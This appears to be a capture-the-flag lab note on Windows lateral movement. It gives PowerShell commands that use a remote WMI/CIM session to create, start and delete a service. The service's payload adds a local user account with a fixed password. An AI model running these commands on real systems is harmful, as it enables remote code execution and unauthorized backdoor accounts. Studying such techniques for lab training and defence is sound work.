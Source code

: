 #### Requirements
- **Ports:**
	- 135/TCP, 49152-65535/TCP (DCERPC)
	- 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
	
- **Required Group Memberships:** Administrators

#### Create a service called `THMService2`
We can create services with WMI through PowerShell.
```powershell
Invoke-CimMethod -CimSession $Session -ClassName Win32_Service -MethodName Create -Arguments @{
Name = "THMService2";
DisplayName = "THMService2";
PathName = "net user munra2 Pass123 /add"; # Your payload
ServiceType = [byte]::Parse("16"); # Win32OwnProcess : Start service in a new process
StartMode = "Manual"
}
```

#### Get a Handle on the service and start it 
```powershell
$Service = Get-CimInstance -CimSession $Session -ClassName Win32_Service -filter "Name LIKE 'THMService2'"

Invoke-CimMethod -InputObject $Service -MethodName StartService
```

#### Stop and Delete the service 
```powershell
Invoke-CimMethod -InputObject $Service -MethodName StopService
Invoke-CimMethod -InputObject $Service -MethodName Delete
```
